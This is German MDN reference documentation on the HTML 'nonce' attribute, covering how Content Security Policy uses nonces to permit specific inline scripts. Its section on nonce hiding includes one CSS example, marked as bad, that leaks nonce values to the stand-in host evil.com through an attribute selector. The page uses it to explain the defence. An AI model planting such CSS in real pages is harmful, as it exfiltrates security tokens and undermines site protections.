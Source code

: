 ```yaml
---
title: HTML nonce globales Attribut
short-title: nonce
slug: Web/HTML/Reference/Global_attributes/nonce
l10n:
  sourceCommit: 0754cd805a8e010d2e3a2a065f634a3bcf358252
---
```


Das **`nonce`** [globale Attribut](/de/docs/Web/HTML/Reference/Global_attributes)
ist ein Inhaltsattribut, das ein kryptografisches Nonce ("Zahl nur einmal verwendet") definiert. Es kann von
[Content Security Policy (CSP)](/de/docs/Web/HTTP/Guides/CSP) verwendet werden, um zu bestimmen, ob ein bestimmter Abruf
für ein gegebenes Element fortgesetzt werden darf.

## Beschreibung

Das `nonce`-Attribut ist nützlich, um spezifische Elemente, wie ein bestimmtes eingebettetes Script oder Stilelemente, auf eine Positivliste zu setzen.
Es kann Ihnen helfen, die Verwendung der [CSP](/de/docs/Web/HTTP/Guides/CSP) `unsafe-inline` Direktive zu vermeiden, die _alle_ eingebetteten Scripts oder Stile auf eine Positivliste setzen würde.

> [!NOTE]
> Verwenden Sie `nonce` nur in Fällen, in denen Sie keine andere Möglichkeit haben, unsichere eingebettete Script-
> oder Stil-Inhalte zu vermeiden. Wenn Sie `nonce` nicht benötigen, verwenden Sie es nicht. Wenn Ihr Script statisch ist, können Sie stattdessen auch einen CSP-Hash verwenden.
> (Siehe Nutzungshinweise zu [unsicheren eingebetteten Scripts](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Versuchen Sie immer, den vollen Vorteil der [CSP](/de/docs/Web/HTTP/Guides/CSP) Schutzmechanismen zu nutzen und vermeiden Sie Nonces oder unsichere eingebettete Scripts wann immer möglich.

### Verwenden von nonce, um ein `<script>` Element auf eine Positivliste zu setzen

Es gibt einige Schritte, um ein eingebettetes Script mithilfe des Nonce-Mechanismus auf eine Positivliste zu setzen:

#### Werte generieren

Generieren Sie von Ihrem Webserver aus einen zufälligen Base64-codierten String mit mindestens 128 Bit Daten aus einem kryptografisch sicheren
Zufallszahlengenerator. Nonces sollten jedes Mal unterschiedlich generiert werden, wenn die Seite geladen wird (Nonce nur einmal verwenden!). Zum Beispiel in nodejs:

```js
import crypto from "node:crypto";

crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Inline-Script auf die Positivliste setzen

Das im Backend-Code generierte Nonce sollte nun für das eingebettete Script, das Sie auf die Positivliste setzen möchten, verwendet werden:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Senden eines Nonce mit einem CSP-Header

Schließlich müssen Sie den Nonce-Wert in einem
[`Content-Security-Policy`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy) Header
senden (fügen Sie `nonce-` voran):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Zugriff auf Nonces und Nonce-Verbergung

Aus Sicherheitsgründen wird das `nonce` Inhaltsattribut verborgen (ein leerer String wird zurückgegeben).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

Die [`nonce`](/de/docs/Web/API/HTMLElement/nonce) Eigenschaft ist der einzige Weg, um auf Nonces zuzugreifen:

```js example-good
script.nonce; // returns nonce value
```

Die Nonce-Verbergung hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen zu exfiltrieren, die Daten
aus Inhaltsattributen wie diesem erfassen können:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: [`script-src`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src)
